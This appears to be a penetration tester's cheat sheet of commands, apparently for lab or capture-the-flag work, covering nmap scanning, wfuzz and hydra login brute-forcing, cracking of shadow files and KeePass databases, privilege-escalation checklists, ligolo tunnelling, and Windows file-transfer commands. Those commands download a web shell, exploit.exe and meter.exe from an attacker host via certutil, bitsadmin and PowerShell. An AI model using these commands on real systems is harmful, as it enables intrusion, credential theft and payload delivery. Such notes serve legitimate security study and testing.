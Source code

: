 **NMAP**
  nmap sweep scan 
  - nmap -sP 10.10.155.1-225
  Most used nmap scan
  - nmap -p- -A -T4 -sV 10.10.155.5

  THREADER3000
cp ~/Files/Tools/threader3000/threader3000.py .

**Nikto**

**Weak Credentials**
HTTP Brute Force

wfuzz POST
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

hydra POST
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20

wfuzz NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

wfuzz Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/

**Password Cracking**

zip
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip 

/etc/shadow
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords

keepass
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file

**Linux Privilege Escalation**
sudo -l
uname -a
Run Linpeas
Run pspy64
sudo -V
run lse.sh
Kernel Exploits
OS Exploits
Password reuse (mysql, .bash_history, 000-default.conf...)
Known binaries with suid flag and interactive (nmap)
Custom binaries with suid flag either using other binaries or with command execution
Writable files owned by root that get executed (cronjobs)
MySQL as root
Vulnerable services (chkrootkit, logrotate)
Writable /etc/passwd
Readable .bash_history
SSH private key
Listening ports on localhost
/etc/fstab
/etc/exports
/var/mail
Process as other user (root) executing something you have permissions to modify
SSH public key + Predictable PRNG
apt update hooking (Pre-Invoke)
Capabilities

**Windows Privilege Escalation**
Kernel Exploits
OS Exploits
Pass The Hash
Password reuse
DLL hijacking (Path)
Vulnerable services
Writable services binaries path
Unquoted services
Listening ports on localhost
Registry keys

**Tunneling & Port Forwarding**

**ligolo - https://github.com/nicocha30/ligolo-ng**
### Access to agent's local ports (127.0.0.1) https://github.com/nicocha30/ligolo-ng?tab=readme-ov-file#access-to-agents-local-ports-127001


 ./proxy -selfcert
 
sudo ip route add 172.16.1.0/24 dev ligolo

./agent -connect <ip>:11601 -ignore-cert

root@DANTE-WEB-NIX01:~# ./agent -connect 10.10.14.4:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled

INFO[0000] Connection established   addr="10.10.14.4:11601"


**Reverse Shells**
https://www.revshells.com/
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

**HTTP Server**


**Windows File Transfer**

python3 -m http.server 

wget.exe http://<ip>/file -o file

certutil -urlcache -split -f  https://<ip>/file.txt -o file.txt

bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php

cscript wget.vbs http://<ip>/test.txt test.txt

powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"

ftp

client:

echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
server:

python -m pyftpdlib  --port=2121 --write
